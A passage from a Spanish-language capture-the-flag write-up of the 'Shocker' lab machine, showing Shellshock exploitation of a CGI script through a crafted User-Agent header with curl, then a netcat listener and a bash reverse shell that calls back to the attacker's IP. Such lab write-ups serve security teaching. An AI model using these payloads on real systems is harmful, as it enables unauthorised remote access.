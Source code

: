
<p align="center">
    <img src="../../../assets/CTFs/Shocker/20240426203550.png" alt="7" width="100%" height="auto">
</p>


Tenemos el output del comando en la respuesta de la petición, con esto podemos entender un poco mejor como es la explotación de esta vulnerabilidad. Intentemos explotarlo con **Curl** mandando la cabecera del User-Agent con el payload:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'"
```

```
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Funciona igual, nos mandamos una reverse shell y accedemos como el usuario Shelly, debemos ponernos en escucha con netcat:

```bash
nc -nlvp 4444
```

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :;}; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/${nuestra_ip}/4444 0>&1'"
```
